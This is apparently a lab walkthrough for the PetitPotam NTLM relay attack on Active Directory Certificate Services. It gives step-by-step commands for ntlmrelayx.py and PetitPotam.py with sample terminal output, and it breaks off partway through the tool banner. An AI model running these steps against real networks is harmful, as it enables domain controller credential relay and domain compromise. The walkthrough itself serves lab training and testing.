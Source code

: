 **Note:** PetitPotam relies on impacket modules to perform the trigger. If the impacket setup is completed in a virtual environment, you will need to execute the PetitPotam from the same virtual environment used for impacket.

#### Execution

1. Initiate the impacket **ntlmrelayx.py** script:
    ```bash
    ntlmrelayx.py -t https://<certificate-server-name>/certsrv/certfnsh.asp -smb2support
    ```
    * **Recommended:** Using split panes in a tmux window allows you to view and troubleshoot the execution of these steps in real time. `Hotkey` + `"` splits between top and bottom halves, and `Hotkey` + `%` splits between left and right halves.
    * Sample output:
    ```bash
    (impacket2) root@gateway0:/home/lab_user/impacket2# python examples/ntlmrelayx.py -t https://ca/certsrv/certfnsh.asp -smb2support               
    Impacket v0.9.24.dev1+20210726.180101.1636eaab - Copyright 2021 SecureAuth Corporation
                                                                                                                                                       
    [*] Protocol Client DCSYNC loaded..                          
    [*] Protocol Client HTTP loaded..                              
    [*] Protocol Client HTTPS loaded..                                                                                                                               
    [*] Protocol Client IMAP loaded..                                                 
    [*] Protocol Client IMAPS loaded..                                                                     
    [*] Protocol Client LDAPS loaded..                                                            
    [*] Protocol Client LDAP loaded..                                                                                                                  
    [*] Protocol Client MSSQL loaded..                            
    [*] Protocol Client RPC loaded..                                
    [*] Protocol Client SMB loaded..                                                                                                                
    [*] Protocol Client SMTP loaded..                                                
    [*] Running in relay mode to single host                                                                                                                       
    [*] Setting up SMB Server                                                            
    [*] Setting up HTTP Server                                
                                
    [*] Setting up WCF Server                                   
    [*] Servers started, waiting for connections                                               
    ```
1. In a separate terminal window (while NTLM relay is still running), trigger the domain controller request, and observe the ntlmrelay terminal:
    ```bash
    python PetitPotam.py <kali-IP> <dc_hostname or ip>
    ```
    * Sample output:
    ```bash
    (impacket2) root@gateway0:/home/lab_user/impacket2# python PetitPotam.py 10.0.0.5 10.0.0.4

                 | _ \   ___    | |_     (_)    | |_     | _ \   ___    | |_    __ _    _ __
                 |  _/  / -_)   |  _|   | | |  _|   |   _/  / _ \   |  _|  / _` |  | '  \
                _|_|_   \___|   _\__|   _|_|_   _\__|   _|_|_   \___/   _\__|  \__,_|  |_|_|_|
              _| """ |_|"""""|_|"""""|_|"""""|_|"""""|_| """ |_|"""""|_|"""""|_|"""""|_|"""""|
              "`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'
